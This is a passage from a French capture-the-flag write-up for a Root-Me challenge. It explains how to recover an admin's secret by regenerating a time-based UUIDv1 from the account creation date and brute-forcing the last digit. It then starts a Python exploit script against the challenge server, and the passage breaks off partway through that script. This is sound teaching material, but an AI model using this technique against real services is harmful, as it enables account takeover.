 ### Principe d'exploitation de la faille de l'UUID

On peut donc générer un UUIDv1 pour l’admin avec la date de création de son compte, et ainsi récupérer son secret.
La seule difficulté réside dans le fait que le timestamp est donné avec une précision à la microseconde près, alors qu’un UUIDv1 a une précision au dixième de microseconde.

Il va donc falloir essayer toutes les valeurs possibles pour le chiffre de poids faible, ce qui ne fait pas beaucoup de requêtes au final.
Comme on ne sait pas si le timestamp est arrondi, tronqué ou autre, on va essayer des valeurs entre -9 et +9, histoire d’être certain de ne rien rater.

### Code Python pour l'exploitation

Dans le code Python suivant, on crée une classe API qui implémente les différents endpoints.
On crée également une fonction `uuid1_from_time()` qui génère un UUIDv1 à partir d’un objet `datetime` (le code est tiré du module `uuid` de la bibliothèque standard Python).

```python
#!/usr/bin/env python3

from __future__ import annotations

from datetime import datetime, timezone
from typing import NewType, TypedDict, cast
from uuid import UUID, uuid4

from requests import HTTPError, Session

URL = "http://challenge01.root-me.org:59091/api/"


class API:
    DateStr = NewType("DateStr", str)
    UuidStr = NewType("UuidStr", str)

    class SuccessRes(TypedDict):
        message: str

    class ErrorRes(TypedDict):
        error: str

    class LoginRes(TypedDict):
        message: str
        secret: API.UuidStr

    class ProfileRes(TypedDict):
        creation_date: API.DateStr
        note: str
        secret: API.UuidStr
        userid: int
        username: str

    class UserRes(TypedDict):
        creation_date: API.DateStr
        userid: int
        username: str

    def __init__(self) -> None:
        self._session = Session()
        self._session.headers.update({"Accept": "application/json"})

    @staticmethod
    def parse_date(date_str: DateStr) -> datetime:
        """Parse a date string into a datetime object in UTC timezone."""
```